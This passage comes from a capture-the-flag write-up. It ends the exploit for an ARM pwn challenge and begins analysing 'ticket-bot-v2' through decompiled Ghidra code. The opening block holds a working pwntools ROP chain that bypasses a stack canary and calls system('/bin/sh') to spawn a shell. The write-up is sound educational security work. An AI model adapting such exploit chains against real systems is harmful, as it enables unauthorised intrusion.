 ```python
binsh = elf.search(b'/bin/sh').__next__()
payload = flat([
    'a' * 100,
    canary,
    0x40800234,
    ldr_r0_sp,
    'b' * 8,
    binsh,
    'c' * 8,
    elf.symbols.system
])
p.sendline(payload)
p.interactive()

#CSCTF{4rm_pwn_1s_c00l_r1ght?}
```

# ticket-bot-v2 | pwn | 63 Solves
>>Welcome to TicketBot v2.0. We fixed some bugs and added some extra feature!

Shall we look at the protections? 

![](ticket-protections.png)

Full protections :gasp

Never fear, let's have a look in ghidra to see what we are dealing with. 

```c
void main(EVP_PKEY_CTX *param_1) {
  init(param_1);
  wellcome();
  do {
    menu();
  } while( true );
}
```
Inside the main function there are calls to `init()`, `welcome()`, and `menu`. Let's explore `init()` first. 
```c
int init(EVP_PKEY_CTX *ctx) {
  FILE *__stream;
  long in_FS_OFFSET;
  char randoms [8];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setvbuf(stdin,(char *)0x0,2,0);
  setvbuf(stdout,(char *)0x0,2,0);
  __stream = fopen("/dev/urandom","rb");
  fgets(randoms,8,__stream);
  fclose(__stream);
  srand((uint)randoms);
  password = rand();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
```